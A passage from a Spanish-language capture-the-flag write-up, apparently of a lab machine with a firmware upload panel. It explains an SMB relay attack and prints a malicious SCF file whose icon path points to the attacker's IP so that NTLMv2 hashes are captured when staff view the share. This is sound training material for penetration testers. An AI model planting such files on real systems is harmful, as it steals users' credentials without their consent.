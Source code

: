 al ver mas a detalle el panel hay una opción bastante interesante donde podemos subir y seleccionar cualquier archivo y dicho archivo será visualizado e interpretado por algún usuario ya que nos dice

"Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon"
"Seleccione el modelo de impresora y cargue la actualización de firmware correspondiente a nuestro recurso compartido de archivos.  Nuestro equipo de pruebas revisará las cargas manualmente e iniciará las pruebas pronto."

![](/assets/img/commons/Driver/terminal3.png)

## SMBrelay with SCF File Attack

esto ya me hace pensar en algún ataque smb relay para compartir un recurso malicioso y cuando sea revisado por otro usuario a nivel del sistema sea capturado su hash NTLMv2, pero... ¿que recurso podriamos caragar?
Explorando un poco me encontré con un Blog acerca de cargar un archivo [SCF](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) **"los archivos SCF (Shell Command Files) se puedan usar para realizar un conjunto limitado de operaciones, como mostrar el escritorio de Windows o abrir un explorador de Windows. Sin embargo, se puede usar un archivo SCF para acceder a una ruta UNC específica que permite al probador de penetración crear un ataque. "**
como vimos al principio tienen el smb habilitado asi que quiero pensar que los recursos compartidos a nivel de red serán expuestos por ahí. en el blog nos indica que queda de la siguiente manera el código malicioso

El código a continuación se puede colocar dentro de un archivo de texto que luego se debe plantar en un recurso compartido de red. 
```console
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
Editado y con mi ip a donde quiero apuntar quedaría de la siguiente forma

```console 
[Shell]
Command=2
IconFile=\\10.10.14.9\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop 
``` 
Posteriormente lo guardamos como archivo SCF **en mi caso lo guardé como pwn.scf** 
